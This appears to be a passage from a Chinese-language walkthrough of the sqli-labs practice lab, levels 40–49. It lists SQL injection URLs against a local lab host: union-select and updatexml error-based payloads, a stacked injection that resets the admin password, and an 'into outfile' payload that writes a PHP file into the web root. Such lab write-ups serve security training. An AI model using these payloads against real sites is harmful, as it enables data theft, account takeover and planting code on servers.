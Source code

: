 http://192.168.1.119:1235/sqli-labs/Less-40/?id=-1') union select 1,database(),3;

## Less-41

http://192.168.1.119:1235/sqli-labs/Less-41/?id=-1 union select 1,database(),3;

## Less-42

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329165010.png)

没有处理password，直接在password处堆叠注入修改admin密码即可。

## Less-43

')闭合

## Less-44

同42

## Less-45

同43

## Less-46（order by

order by 后面虽然不能进行奇奇怪怪的union注入，但是可以进行desc/asc进行排序。

有报错信息，所以尝试报错注入

http://192.168.1.119:1235/sqli-labs/Less-46/?sort=updatexml(1,concat(0x7e,database(),0x7e),1);

## Less-47（写文件的两种方法

上题也可以写入文件

http://192.168.1.119:1235/sqli-labs/Less-47/?sort=1' into outfile "E:\\phpstudy_pro\\WWW\\sqli-labs\\Less-47\\hack.php"lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329172110.png)

## Less-48

双引号，其余同上

## Less-49

关闭了报错，不能用报错注入，其余同上。

## Less-50
